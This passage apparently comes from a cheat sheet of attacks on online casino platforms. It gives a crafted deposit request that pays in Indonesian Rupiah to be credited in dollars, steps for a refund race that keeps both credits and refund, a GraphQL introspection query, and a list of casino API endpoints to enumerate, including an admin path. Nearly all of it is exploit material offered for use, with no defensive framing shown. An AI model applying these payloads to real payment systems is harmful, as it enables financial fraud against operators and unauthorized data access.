 2. **Currency Confusion**
```javascript
// Pay in low-value currency, receive high-value
POST /api/deposit
{
  "amount": 100,
  "currency": "IDR"  // Indonesian Rupiah
}
// System treats as USD → 100 IDR = $0.007 but credits $100
```

3. **Refund Exploit**
```javascript
// Request refund before transaction completes
1. Initiate payment
2. Receive credits immediately
3. Request refund while payment pending
4. Keep credits + get refund
```

---

### Data Exposure

1. **GraphQL Introspection**
```graphql
{
  __schema {
    types {
      name
      fields {
        name
        type {
          name
        }
      }
    }
  }
}
```

2. **API Endpoint Enumeration**
```bash
# Common casino API patterns
/api/v1/users
/api/v1/wallet
/api/v1/bets
/api/v1/games
/api/v1/admin
/api/v1/payments
/api/v1/transactions
/api/v1/bonuses
/api/v1/statistics
```
